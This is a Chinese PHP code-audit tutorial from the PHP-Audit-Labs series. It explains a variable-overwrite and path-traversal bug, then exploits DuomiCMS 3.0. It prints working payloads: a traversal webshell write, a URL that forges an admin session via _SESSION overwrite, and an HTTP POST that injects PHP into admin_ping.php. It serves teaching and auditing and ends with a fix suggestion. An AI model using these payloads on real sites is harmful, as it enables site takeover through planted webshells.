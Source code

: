 本文由红日安全成员： **七月火** 编写，如有不当，还望斧正。

## 前言

大家好，我们是红日安全-代码审计小组。最近我们小组正在做一个PHP代码审计的项目，供大家学习交流，我们给这个项目起了一个名字叫 [**PHP-Audit-Labs**](https://github.com/hongriSec/PHP-Audit-Labs) 。现在大家所看到的系列文章，属于项目 **第一阶段** 的内容，本阶段的内容题目均来自 [PHP SECURITY CALENDAR 2017](https://www.ripstech.com/php-security-calendar-2017/) 。对于每一道题目，我们均给出对应的分析，并结合实际CMS进行解说。在文章的最后，我们还会留一道CTF题目，供大家练习，希望大家喜欢。下面是 **第14篇** 代码审计文章：

## Day 14 - Snowman

题目叫做雪人，代码如下：

![1](1.png)

**漏洞解析** ：

这道题目讲的是一个 **变量覆盖** 与 **路径穿越** 问题。在 **第10-11行** 处， **Carrot** 类的构造方法将超全局数组 **$_GET** 进行变量注册，这样即可覆盖 **第8行** 已定义的 **$this->** 变量。而在 **第16行** 处的析构函数中， **file_put_contents** 函数的第一个参数又是由 **$this->** 变量拼接的，这就导致我们可以控制写入文件的位置，最终造成任意文件写入问题。下面我们试着使用 **payload** ：**id=../var/www/html/shell.php&shell=',)%0a<?php phpinfo();?>//** 写入 **webshell** ：

![2](2.png)

## 实例分析

本次实例分析，我们选取的是 **[DuomiCMS_3.0](https://duomicms.net)** 最新版。该CMS存在全局变量注册问题，如果程序编写不当，会导致变量覆盖，本次我们便来分析 **由变量覆盖导致的getshell** 问题。

首先我们先来看一下该CMS中的全局变量注册代码，该代码位于 **duomiphp/common.php** 文件中，如下：

![3](3.png)

![4](4.png)

其中 **_RunMagicQuotes** 函数将特殊符号，使用 **addslashes** 函数进行转义处理。我们来搜索 **fwrite** 函数，看看是否存在可利用的写文件程序（为了写 **shell** ）。**phpstorm** 程序搜索结果如下：

![5](5.png)

我们可以看到有一个 **admin\admin_ping.php** 文件中，存在可利用的地方，因为其写入的目标文件为 **PHP** 程序，且写入内容中存在两个可控变量。其代码具体如下：

![6](6.png)

**$weburl** 变量和 **$token** 变量从 **POST方式** 获取，其变量也只是经过 **_RunMagicQuotes** 函数过滤处理，以及 **duomiphp\webscan.php** 文件的过滤规则，但是并不影响我们写shell。过滤规则具体如下：

![7](7.png)

然而要想利用这个文件，我们就必须是 **admin** 身份，不然没有权限访问该文件。所以我们看看该CMS是如何对用户身份进行认定的，是否可以利用之前的变量覆盖来伪造身份呢？

跟进 **admin\admin_ping.php** 文件开头包含的 **admin\config.php** 文件，那么我们要关注的是如下代码：

![8](8.png)

我们需要知道程序是如何对用户的身份进行处理的，跟进 **duomiphp\check.admin.php** 文件，关注如下代码：

![9](9.png)

我们可以看到这里记录了用户名字、所属组、用户，再来看看 **admin** 所对应的这三个值分别是多少。找到 **admin\login.php** 文件，如下图，我们只要让 **checkUser** 方法返回1即是admin用户。

![10](10.png)

跟进 **duomiphp\check.admin.php** 文件的 **checkUser** 方法，具体代码如下：

![11](11.png)

我们直接使用正确admin账号密码登录后台，可以观察到admin用户对应的用户和所属组均为1。

![12](12.png)

那么现在我们只要利用变量覆盖漏洞，覆盖 **session** 的值，从而伪造 **admin** 身份，然后就可以愉快的写shell了。

## 漏洞利用

我们需要先找一些开启 **session_start** 函数的程序来辅助我们伪造身份，我们这里就选择 **member/share.php** 文件。

![13](13.png)

我们先访问如下 **payload** ：

```php
http://localhost/member/share.php?_SESSION[duomi_group_]=1&_SESSION[duomi_admin_]=1
```

当我们访问 **payload** 后，我们对应 **session** 的用户和所属组都变成了1。然后，我们再POST如下数据包写入webshell：

```http
POST /admin/admin_ping.php?action=set HTTP/1.1
Host: www.localhost.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

weburl=";phpinfo();//&token=
```

![14](14.png)

## 修复建议

实际上，这个漏洞和 **Dedecms** 变量覆盖漏洞很相似。而在 **Dedecms** 的官方修复代码中，多了检测变量名是否为PHP原有的超全局数组，如果是，则直接退出并告知变量不允许，具体修复代码如下：

![15](15.png)

## 结语

看完了上述分析，不知道大家是否对 **变量覆盖** 导致的漏洞有了更加深入的理解，文中用到的 **CMS** 可以从这里( **[DuomiCMS_3.0](https://duomicms.net/portal.php?mod=attachment&id=23)** )下载，当然文中若有不当之处，还望各位斧正。如果你对我们的项目感兴趣，欢迎发送邮件到 **hongrisec@gmail.com** 联系我们。**Day14** 的分析文章就到这里，我们最后留了一道CTF题目给大家练手，题目如下：链接: <https://pan.baidu.com/s/1pHjOVK0Ib-tjztkgBxe3nQ> 密码: 59t2（题目环境：PHP5.2.x）

题解我们会阶段性放出，如果大家有什么好的解法，可以在文章底下留言，祝大家玩的愉快！
